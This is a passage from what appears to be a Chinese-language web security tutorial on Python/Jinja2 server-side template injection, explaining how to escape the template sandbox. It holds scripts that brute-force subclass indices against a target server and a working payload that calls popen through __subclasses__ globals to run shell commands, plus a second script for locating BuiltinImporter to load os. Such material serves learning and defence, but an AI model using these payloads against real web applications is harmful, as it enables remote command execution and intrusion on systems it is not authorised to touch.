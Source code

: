 我们可以看到，即使是使用os模块执行命令，其也是调用的os模块中的`popen`函数，那我们也可以直接调用`popen`函数，存在`popen`函数的类一般是 `os._wrap_close`，但也不绝对。由于目标Python环境的不同，我们还需要遍历一下。

#### 寻找 popen 函数执行命令

首先编写脚本遍历目标Python环境中含有 popen 函数的类的索引号：

```python
import requests

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'
}

for i in range(500):
    url = "http://47.xxx.xxx.72:8000/?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"].__init__.__globals__}}"

    res = requests.get(url=url, headers=headers)
    if 'popen' in res.text:
        print(i)

# 得到编号为117
```

直接构造payload即可：

```
{{''.__class__.__bases__[0].__subclasses__()[117].__init__.__globals__['popen']('ls /').read()}}
```
![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174656-249c2ca2-bd3e-1.png)

这样得到的索引还是很准确的。

除了这种方法外，我们还可以直接导入os模块，python有一个`importlib`类，可用`load_module`来导入你需要的模块。

#### 寻找 importlib 类执行命令

Python 中存在 `<class '_frozen_importlib.BuiltinImporter'>` 类，目的就是提供 Python 中 import 语句的实现（以及 `__import__` 函数）。我么可以直接利用该类中的`load_module`将os模块导入，从而使用 os 模块执行命令。

首先编写脚本遍历目标Python环境中 `importlib` 类的索引号：

```python
import requests

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'
}

for i in range(500):
    url = "http://47.xxx.xxx.72:8000/?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"]}}"

    res = requests.get(url=url, headers=headers)
    if '_frozen_importlib.BuiltinImporter' in res.text:
        print(i)

# 得到编号为69
```
